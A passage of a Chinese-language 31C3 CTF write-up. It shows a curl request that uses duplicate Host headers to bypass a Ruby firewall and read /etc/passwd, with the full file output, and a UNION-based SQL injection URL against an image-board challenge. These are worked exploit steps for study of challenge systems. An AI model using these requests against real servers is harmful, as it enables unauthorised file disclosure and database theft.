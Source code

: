 
这样我们就可以构造两个Host来绕过fw.rb了。

```
root@kali:~# curl http://works.90.31c3ctf.aachen.ccc.de/passwd -H 'Host: /etc/' -H 'Host:
works.90.31c3ctf.aachen.ccc.de'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:100:103::/home/syslog:/bin/false
messagebus:x:101:105::/var/run/dbus:/bin/false
uuidd:x:102:107::/run/uuidd:/bin/false
landscape:x:103:110::/var/lib/landscape:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
user:x:1000:1000:user,,,:/home/user:/bin/bash
flag:x:1001:1001:31C3_b45fa9e4d5969e3c524bdcde15f84125:/home/flag:

```

0x04 5CHAN
=====

```
5CHAN? Never heard of this image board, but they have exactly what we need. The picture we’re looking
for is not for public, so can you get it?

http://188.40.18.89/

```

首先访问一下http://188.40.18.89/robots.txt，会发现一个backup的目录，下载下来得到源码。

看下代码很容易发现一个sql注入漏洞，构造如下的语句，就可以的到Flag

```
http://188.40.18.89/?page=pic&id=9 union select * from pictures  where id=9 -- a

```

![enter image description here](http://drops.javaweb.org/uploads/images/23d1139d691872113dcfb7a89508a85e6fdfa180.jpg)
